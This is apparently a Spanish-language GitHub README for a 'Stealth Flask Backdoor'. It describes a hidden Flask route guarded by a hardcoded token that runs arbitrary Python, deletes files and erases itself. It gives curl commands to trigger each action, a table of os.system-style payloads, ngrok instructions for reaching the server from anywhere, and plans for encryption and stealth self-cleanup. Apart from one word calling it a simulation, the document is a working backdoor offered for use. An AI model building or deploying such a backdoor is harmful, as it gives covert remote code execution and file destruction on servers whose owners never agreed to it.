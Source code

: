 # 🕵️ Stealth Flask Backdoor


Este microservidor Flask simula una puerta trasera

## 🚀 Funcionalidades

- ✅ Ruta oculta: `POST /.well-known/assets`
- 🔐 Requiere header de autenticación:  
  `X-Auth-Token: U3VwZXJTZWNyZXQ=`  ← base64("SuperSecret")
- 🎯 Acciones disponibles vía parámetro `act`:
  - `act=borrar` → borra todos los archivos en `./books`
  - `act=ejecutar` → ejecuta código Python arbitrario
  - `act=autodestruir` → borra el script `backdoor.py`
- 📁 Genera un registro oculto en `.syslog` con la IP y actividad

---

## 🧪Payloads útiles (acción: `ejecutar`)

| Payload                                             | Descripción                             |
|-----------------------------------------------------|-----------------------------------------|
| `print("Hola mundo")`                              | Imprime en consola del servidor         |
| `open("flag.txt", "w").write("")`                 | Escribe un archivo de texto             |
| `__import__('os').system('ls')`                     | Ejecuta un comando del sistema          |
| `__import__('socket').gethostbyname(...)`           | Obtener la IP del servidor              |
| `__import__('shutil').copy("f", "dest")`            | Copiar archivos                         |


🕵️ Log de Actividad
Todos los accesos exitosos se registran en el archivo .syslog, incluyendo:

```log
Registro: 192.168.0.45
Registro: acción ejecutada
```

🌐 Exposición remota
¿No estás en red pública? Usa ngrok:
```bash
ngrok http 5000
```   
Y luego accede desde cualquier parte del mundo vía HTTPS.


---
## 📦 Ejecución

📡 Activación remota (desde otra máquina)
Requisitos:
Agregar el header:
X-Auth-Token: U3VwZXJTZWNyZXQ=
🔥 Ejecutar código Python:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=ejecutar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'open("flag.txt", "w").write("Pwned!")'
```
🧨 Borrar archivos:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=borrar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
💀 Autodestrucción:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=autodestruir" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
```bash
pip install -r requirements.txt
python backdoor.py
```
Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

---

TODO / Mejoras futuras
 Añadir cifrado AES a los scripts

 Backdoor activada por Redis

 Modos silenciosos de respuesta (stealth logs, autolimpieza)
